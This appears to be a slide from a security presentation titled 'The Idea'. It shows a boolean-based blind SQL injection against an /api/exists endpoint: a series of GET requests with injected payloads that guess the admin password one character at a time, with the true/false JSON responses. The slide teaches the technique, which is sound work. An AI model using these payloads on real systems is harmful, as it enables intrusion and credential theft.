

The Idea
GET /api/exists?user=' or user='admin' and pass like 'na%'-- -
{"exists": false}
GET /api/exists?user=' or user='admin' and pass like 'nb%'-- -
{"exists": false}
GET /api/exists?user=' or user='admin' and pass like 'nc%'-- -
{"exists": false}
...
GET /api/exists?user=' or user='admin' and pass like 'n3%'-- -
{"exists": false}
GET /api/exists?user=' or user='admin' and pass like 'n4%'-- -
{"exists": true}